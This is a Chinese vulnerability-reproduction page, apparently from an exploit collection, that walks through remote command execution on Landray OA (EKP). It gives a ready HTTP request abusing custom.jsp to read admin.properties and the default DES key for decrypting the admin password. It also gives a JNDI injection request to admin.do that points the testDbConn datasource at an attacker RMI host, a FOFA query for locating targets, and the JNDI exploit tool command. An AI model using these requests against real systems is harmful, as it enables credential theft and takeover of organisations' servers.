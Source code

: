 ```yaml
---
title: 蓝凌OA SSRF+JNDI远程命令执行
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - OA产品漏洞
 - 蓝凌OA
---
```


# 蓝凌OA SSRF+JNDI远程命令执行

## 漏洞描述

深圳市蓝凌软件股份有限公司数字OA(EKP)存在任意文件读取漏洞。攻击者可利用漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 即可利用 JNDI远程命令执行获取权限

## 漏洞影响

> [!NOTE]
>
> 蓝凌OA

## FOFA

> [!NOTE]
>
> app="Landray-OA系统"

## 漏洞复现

利用 **蓝凌OA custom.jsp 任意文件读取漏洞** 读取配置文件

```
/WEB-INF/KmssConfig/admin.properties
```

发送请求包

```
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 60
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}
```

![](/img/20210924015536201321.png)

获取password后，使用 DES方法 解密，默认密钥为 **kmssAdminKey**

![](/img/20210924015536497637.png)



访问后台地址使用解密的密码登录

```
http://xxx.xxx.xxx.xxx/admin.do
```

![](/img/20210924015537500341.png)

使用工具执行命令

https://github.com/welk1n/JNDI-Injection-Exploit

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar [-C] [command] [-A] [address]
```

运行工具监听端口 ping dnslog测试 命令执行 (蓝凌OA 默认使用的是 JDK 1.7)

```
POST /admin.do HTTP/1.1
Host: 
Cookie: JSESSIONID=90EA764774514A566C480E9726BB3D3F; Hm_lvt_9838edd365000f753ebfdc508bf832d3=1620456866; Hm_lpvt_9838edd365000f753ebfdc508bf832d3=1620459967
Content-Length: 70
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90", "Google Chrome";v="90"
Sec-Ch-Ua-Mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Origin: 
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

method=testDbConn&datasource=rmi://xxx.xxx.xxx.xxx:1099/cbdsdg
```



![](/img/20210924015537813556.png)

